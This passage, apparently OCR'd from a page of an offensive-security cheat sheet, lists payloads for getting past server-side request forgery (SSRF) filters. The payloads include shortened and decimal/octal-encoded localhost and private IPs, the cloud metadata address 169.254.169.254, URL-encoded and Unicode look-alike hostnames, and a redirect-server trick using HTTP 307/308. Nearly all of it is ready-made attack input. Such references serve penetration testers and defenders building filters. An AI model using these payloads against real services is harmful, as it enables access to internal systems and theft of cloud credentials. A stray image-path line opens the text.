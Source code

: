 You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass Using an Encoded IP Address

* Decimal IP location

    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* Octal IP: Implementations differ on how to handle octal format of IPv4.

    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```

### Bypass Using Different Encoding

* URL encoding: Single or double encode a specific URL to bypass blacklist

    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* Enclosed alphanumeric: `①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿`

    ```powershell
    http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
    ```

* Unicode encoding: In some languages (.NET, Python 3) regex supports unicode by default. `\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.

### Bypassing Using a Redirect

1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to `vulnerable.com/index.php?url=http://redirect-server`
3. You can use response codes [HTTP 307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [HTTP 308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.
